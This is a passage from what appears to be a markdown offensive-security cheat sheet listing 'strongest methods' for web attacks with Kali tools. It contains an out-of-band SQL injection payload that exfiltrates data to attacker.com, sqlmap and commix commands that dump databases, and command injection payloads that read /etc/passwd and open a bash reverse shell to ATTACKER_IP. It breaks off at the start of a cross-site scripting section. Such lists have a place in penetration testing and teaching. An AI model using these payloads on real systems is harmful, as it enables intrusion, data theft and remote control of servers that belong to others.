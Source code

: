 - **Out-of-Band (OOB) SQLi**:  
  ```sql
  ' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT @@version),'.attacker.com\\test.txt')) --
  ```  
  - Exfiltrates data via DNS or HTTP requests.  

#### **Kali Tools**
- **sqlmap**:  
  ```bash
  sqlmap -u "http://example.com/page?id=1" --batch --dump-all
  ```  
  - Automates SQLi detection and exploitation.  

- **Burp Suite**:  
  - Use Burp to manually craft and test SQLi payloads.  

---

### **2. Command Injection**
Command injection occurs when an application passes unsafe user input to a system shell. Kali has tools to exploit and test for this vulnerability.

#### **Strongest Methods**
- **Basic Command Injection**:  
  ```bash
  ; whoami
  ```  
  - Executes the `whoami` command on the server.  

- **Chaining Commands**:  
  ```bash
  ; cat /etc/passwd; ls -la /var/www
  ```  
  - Executes multiple commands in sequence.  

- **Reverse Shell**:  
  ```bash
  ; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
  ```  
  - Opens a reverse shell to the attacker’s machine.  

#### **Kali Tools**
- **Commix**:  
  ```bash
  commix -u "http://example.com/vuln.php?param=value"
  ```  
  - Automates command injection exploitation.  

- **Burp Suite**:  
  - Use Burp to manually test for command injection vulnerabilities.  

---

### **3. Cross-Site Scripting (XSS)**
XSS allows attackers to inject malicious scripts into web pages viewed by other users.
